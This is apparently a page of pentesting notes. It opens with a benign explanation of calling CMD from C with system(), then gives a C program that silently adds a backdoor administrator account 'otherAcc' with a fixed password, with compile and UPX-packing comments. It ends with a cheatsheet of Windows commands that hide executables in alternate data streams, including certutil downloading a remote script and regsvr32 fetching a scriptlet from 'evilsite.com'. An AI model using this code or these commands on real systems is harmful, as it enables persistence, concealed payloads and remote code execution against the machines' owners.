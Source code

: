 To call CMD (Command Prompt) from C code, you can use the `system()` function. This function allows you to execute a command in the command prompt.

```c
#include <stdlib.h>

int main() {
    system("command");
    return 0;
}
```

In the above code, replace `"command"` with the command you want to execute in CMD. For example, if you want to execute the `ipconfig` command, the code would be:

```c
#include <stdlib.h>

int main() {
    system("ipconfig");
    return 0;
}
```

This will open the command prompt and execute the `ipconfig` command. You can replace it with any other command you want to execute.
```c
#include <stdlib.h>     /* system, NULL, EXIT_FAILURE */

// When executed by Administrator this program will create a user and then add him to the administrators group
// i686-w64-mingw32-gcc addmin.c -o addmin.exe
// upx -9 addmin.exe

int main (){
int i;
i=system("net users otherAcc 0TherAcc! /add");
i=system("net localgroup administrators otherAcc /add");
return 0;
}
```
## वैकल्पिक डेटा स्ट्रीम्स चीटशीट (ADS/वैकल्पिक डेटा स्ट्रीम)

[https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f) से लिया गया
```bash
##Add content to ADS###
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe
findstr /V /L W3AllLov3DonaldTrump c:\ADS\procexp.exe > c:\ADS\file.txt:procexp.exe
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab
print /D:c:\ads\file.txt:autoruns.exe c:\ads\Autoruns.exe
reg export HKLM\SOFTWARE\Microsoft\Evilreg c:\ads\file.txt:evilreg.reg
regedit /E c:\ads\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKey
expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat
esentutl.exe /y C:\ADS\autoruns.exe /d c:\ADS\file.txt:autoruns.exe /o
powershell -command " & {(Get-Content C:\ADS\file.exe -Raw | Set-Content C:\ADS\file.txt -Stream file.exe)}"
curl file://c:/temp/autoruns.exe --output c:\temp\textfile1.txt:auto.exe
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://evilsite.com/RegSvr32.sct   ^scrobj.dll > fakefile.doc:reg32.bat
set-content - path {path to the file} - stream {name of the stream}

```